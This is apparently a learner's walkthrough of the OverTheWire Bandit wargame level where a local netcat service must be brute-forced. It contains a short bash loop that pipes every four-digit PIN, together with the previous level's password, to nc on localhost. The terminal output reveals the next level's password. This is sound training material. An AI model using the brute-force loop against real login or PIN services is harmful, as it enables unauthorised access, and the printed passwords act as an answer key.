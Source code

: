 Let's start bruteforcing the port I guess :).

First we connect to the level and then start bruteforcing the port on the localhost.

When trying to make the bash script, I went to the /tmp folder and wanted to create brute.sh. However, when doing so, it opened an already existing brute.sh script that contained:
```bash
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
    echo "$pass $pin"
done | nc localhost 30002
```
This script gives the password to the next level.

Yet, because I want to learn myself, I'll try to create my own script instead but this was a nice find I guess. We know that if we enter the wrong pincode, we get the error message: "Wrong! Please enter the correct current password and pincode. Try again." So we'll need to check the terminal for another output and stop the script when that is printed.

bandit24@bandit:/tmp$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
1234
Wrong! Please enter the correct current password and pincode. Try again.

We now know that we'll first have to provide the password from the last level, and only then we can start trying pins.

So here is my take at the script:
```bash
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
    echo "$pass $pin"
done | nc localhost 30002
```

After some tinkering on the script, I quickly discovered this was just the most simple and correct way to do is. So with dumb luck I managed to clear the level way quicker than I thought.

```bash
bandit24@bandit:/tmp$ ./raar.sh
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
